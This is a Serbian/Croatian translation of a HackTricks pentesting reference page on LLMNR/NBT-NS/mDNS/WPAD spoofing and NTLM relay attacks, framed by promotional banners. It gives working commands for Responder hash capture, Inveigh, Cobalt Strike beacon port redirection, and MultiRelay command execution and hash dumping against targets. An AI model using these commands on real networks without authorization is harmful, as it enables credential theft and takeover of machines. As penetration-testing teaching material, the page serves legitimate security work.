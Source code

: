 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Mrežni protokoli

### Protokoli lokalne rezolucije domaćina

* **LLMNR, NBT-NS i mDNS**:
* Microsoft i drugi operativni sistemi koriste LLMNR i NBT-NS za lokalnu rezoluciju imena kada DNS ne uspe. Slično tome, Apple i Linux sistemi koriste mDNS.
* Ovi protokoli su podložni presretanju i lažiranju zbog svoje neautentifikovane, emitovane prirode preko UDP-a.
* [Responder](https://github.com/lgandx/Responder) se može koristiti za lažiranje usluga slanjem lažiranih odgovora na upite ovih protokola.
* Dodatne informacije o lažiranju usluga pomoću Responder-a mogu se pronaći [ovde](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protokol automatskog otkrivanja veb proksija (WPAD)

* WPAD omogućava pregledačima automatsko otkrivanje podešavanja proksija.
* Otkrivanje se olakšava putem DHCP-a, DNS-a ili prelaska na LLMNR i NBT-NS ako DNS ne uspe.
* Responder može automatizovati napade na WPAD, usmeravajući klijente ka zlonamernim WPAD serverima.

### Responder za trovanje protokola

* **Responder** je alat koji se koristi za trovanje LLMNR, NBT-NS i mDNS upita, selektivno odgovarajući na osnovu tipova upita, uglavnom ciljajući SMB usluge.
* Dolazi preinstaliran u Kali Linux-u, konfigurabilan na lokaciji `/etc/responder/Responder.conf`.
* Responder prikazuje uhvaćene hešove na ekranu i čuva ih u direktorijumu `/usr/share/responder/logs`.
* Podržava IPv4 i IPv6.
* Windows verzija Responder-a je dostupna [ovde](https://github.com/lgandx/Responder-Windows).

#### Pokretanje Responder-a

* Za pokretanje Responder-a sa podrazumevanim podešavanjima: `responder -I <Interfejs>`
* Za agresivnije ispitivanje (sa potencijalnim sporednim efektima): `responder -I <Interfejs> -P -r -v`
* Tehnike za hvatanje NTLMv1 izazova/odgovora radi lakšeg pucanja: `responder -I <Interfejs> --lm --disable-ess`
* Lažiranje WPAD-a se može aktivirati sa: `responder -I <Interfejs> --wpad`
* NetBIOS zahtevi mogu biti rešeni na IP napadača, a može se postaviti i proksi za autentifikaciju: `responder.py -I <interfejs> -Pv`

### Trovanje DHCP-om pomoću Responder-a

* Lažiranje DHCP odgovora može trajno otrovati informacije o rutiranju žrtve, nudeći prikriveniju alternativu za trovanje ARP-om.
* Zahteva precizno poznavanje konfiguracije ciljne mreže.
* Pokretanje napada: `./Responder.py -I eth0 -Pdv`
* Ova metoda može efikasno uhvatiti NTLMv1/2 hešove, ali zahteva pažljivo rukovanje kako bi se izbeglo ometanje mreže.

### Hvatanje akreditacija pomoću Responder-a

* Responder će lažirati usluge koristeći gorenavedene protokole, hvatajući akreditacije (obično NTLMv2 Izazov/Odgovor) kada korisnik pokuša da se autentifikuje protiv lažiranih usluga.
* Mogu se preduzeti pokušaji da se smanji na NetNTLMv1 ili onemogući ESS radi lakšeg pucanja akreditacija.

Važno je napomenuti da se ove tehnike trebaju primenjivati legalno i etički, uz obezbeđivanje odgovarajuće autorizacije i izbegavanje ometanja ili neovlašćenog pristupa.

## Inveigh

Inveigh je alat namenjen penetracionim testiranjima i timovima za crveno hakovanje, dizajniran za Windows sisteme. Nudi funkcionalnosti slične Responder-u, izvodeći lažiranje i napade čovek-u-sredini. Alat se razvio iz PowerShell skripte u C# binarni fajl, sa [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kao glavnim verzijama. Detaljni parametri i uputstva mogu se pronaći u [**wiki-ju**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se može koristiti putem PowerShell-a:

```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Ili izvršeno kao C# binarni fajl:

```bash
Inveigh.exe
```

### NTLM Relay Napad

Ovaj napad koristi SMB autentifikacijske sesije kako bi pristupio ciljnom računalu, pružajući sistemsku ljusku ako je uspješan. Ključni preduvjeti uključuju:

* Autentificirani korisnik mora imati lokalni administratorski pristup na preusmjerenom računalu.
* Potrebno je onemogućiti SMB potpisivanje.

#### Preusmjeravanje i tuneliranje porta 445

U scenarijima gdje direktno umrežavanje nije izvedivo, promet na portu 445 treba biti preusmjeren i tuneliran. Alati poput [**PortBender**](https://github.com/praetorian-inc/PortBender) pomažu u preusmjeravanju prometa na portu 445 na drugi port, što je bitno kada je dostupan lokalni administratorski pristup za učitavanje upravljačkog programa.

Postavljanje i rad PortBendera u Cobalt Strike-u:

```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Ostali alati za NTLM Relay napad

* **Metasploit**: Podesite sa proxy-jima, lokalnim i udaljenim detaljima hosta.
* **smbrelayx**: Python skripta za preusmeravanje SMB sesija i izvršavanje komandi ili postavljanje zadnjih vrata.
* **MultiRelay**: Alat iz Responder suite-a za preusmeravanje određenih korisnika ili svih korisnika, izvršavanje komandi ili ispisivanje heševa.

Svaki alat se može konfigurisati da radi preko SOCKS proxy-ja ako je potrebno, omogućavajući napade čak i sa indirektnim pristupom mreži.

### Rad MultiRelay-a

MultiRelay se pokreće iz direktorijuma _**/usr/share/responder/tools**_, ciljajući određene IP adrese ili korisnike.

```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```

Ovi alati i tehnike čine sveobuhvatan set za izvođenje NTLM Relay napada u različitim mrežnim okruženjima.

### Prisiljavanje NTLM prijava

U sustavu Windows **možete prisiliti neke privilegirane račune da se autentificiraju na proizvoljnim mašinama**. Pročitajte sljedeću stranicu da biste saznali kako:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Reference

* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite vidjeti **vašu kompaniju oglašenu na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** Provjerite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podijelite svoje hakirajuće trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
